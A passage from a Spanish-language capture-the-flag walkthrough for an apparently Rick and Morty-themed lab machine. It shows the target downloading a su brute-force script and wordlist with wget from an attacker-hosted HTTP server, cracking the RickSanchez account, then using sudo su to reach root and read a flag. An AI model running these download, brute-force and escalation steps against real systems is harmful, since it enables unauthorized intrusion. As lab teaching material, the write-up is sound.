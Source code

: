 Esto en la maquina atacante
```bash
python3 -m http.server 8000
```

Esto en la maquina de Rick
```bash
wget http://192.168.56.103:8000/Linux-Su-Force.sh
wget http://192.168.56.103:8000/diccionario.txt
```
Ir a la ruta /home/Summer ya que allí tenemos permisos, Chmod + x Linux-Su-Force.sh y Ejecutar el programa .sh

```bash
./Linux-Su-Force.sh RickSanchez diccionario.txt
```
Esperar a que encuentre la contraseña y escalar a Rick

```bash
su RickSanchez
```

## Root

Siendo user RickSanchez sudo -l y se ve que tiene permisos completos.

```bash
RickSanchez@localhost ~]$ sudo -l
[sudo] password for RickSanchez: 
Sorry, try again.
[sudo] password for RickSanchez: 
Matching Defaults entries for RickSanchez on localhost:
    !visiblepw, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR
    LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS
    LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT
    LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER
    LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User RickSanchez may run the following commands on localhost:
    (ALL) ALL

```
Entonces con un simple sudo su, ya escalas a root.

```bash
[RickSanchez@localhost ~]$ sudo su
[root@localhost RickSanchez]# ls
```

En el directorio /root/ hay otra flag, con el more la lees.

